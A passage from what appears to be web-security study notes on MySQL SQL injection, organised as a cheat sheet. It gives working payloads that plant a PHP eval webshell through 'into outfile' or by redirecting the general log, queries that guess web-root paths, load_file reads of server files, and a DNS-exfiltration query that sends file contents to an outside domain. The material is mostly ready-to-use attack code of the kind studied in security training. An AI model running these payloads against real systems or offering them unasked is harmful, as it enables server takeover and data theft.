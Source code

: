 More：  
[seebug我的wafbypass之道](https://paper.seebug.org/218/)  

# Webshell
:racehorse: Select `into outfile` requires write-permission from users, file should **not be already exist**, and without the limitation of `secure_file_priv`.  
```sql
1' or 1 union select 1,2,"<?php @eval($_POST['hi']);?>" into outfile 'C://xampp/htdocs/sqli/Less-9/muma.php'--+ // absolute path
// into outfile must be used with double quote

// injection after limit
into outfile 'D:/1.php' lines terminiated/starting by 0x3c3f7068702070687069e666f28293b3f3e;
```  
Guess the path of document root...  
```php
// Window server IIS asp server
C:\inetpub\www\root\
// linux server nginx
/usr/local/nginx/html, /home/www/root/default, /usr/share/nginx, /var/www/html
// linux apache
/var/www/html, /var/www/html/htdocs

// guess from other results...  
// @@basedir : sql installation path
// @@datadir : database path
id=1' union select 1, @@basedir, @@datadir--+
```
e.g. With @@basedir we can get the result of ```C:/xampp/mysql```, and document root might be ```C:/xampp/htdocs/```, more content can be taken a look at [INFO-leak](https://github.com/shinmao/Web-Security-Learning/tree/master/INFO-leak) The part of absolute path  
:racehorse: Webshell with general log  
Requirement is also **write-permission**, general log would record your history command  
Scene: Attackers are confused by **read-permission**  
```php
show variables like '%general%';
set global general_log=on;
set global general_log_file='/var/www/html/myshell.php';
```  
Open the log setting, set to the place you want your webshell, and pay attention to the default place of `general_log_file`  
```php
select '<?php @eval($_POST[1])?>';
```  
End, change `general_log_file` back to the default place, set `general_log` back to off  

# Read file  
```php
union select load_file( filename-hex );

// DNS query
select load_file(concat('\\\\',hex((select load_file('want_to_read_file'))),'example.com\\file.txt'));
```  
Attackers or users require read-permission(usually have). We can use `load_file` to read some information, for example `DB.php`. In addition to read-permission，`select into outfile`,`select into dumpfile`,`select load_file()` such functions are all limited by `secure_file_priv`, take a look at the following part...  
